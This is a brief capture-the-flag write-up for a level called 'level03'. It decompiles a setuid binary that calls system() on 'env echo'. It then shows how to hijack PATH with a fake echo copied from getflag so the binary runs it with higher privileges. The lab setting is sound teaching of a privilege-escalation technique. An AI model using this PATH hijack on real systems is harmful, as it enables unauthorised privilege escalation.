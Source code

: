 # Level 03

Here we have an executable named "level03".

```sh
$ ./level03
Exploit me
```

We can decompile the file using [dogbolt](https://dogbolt.org)

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

We can see that env is an absolut path but not echo. We can modify the PATH variable to point to our own echo.

```sh
cp /bin/getflag /tmp/echo
PATH=/tmp ./level03
```

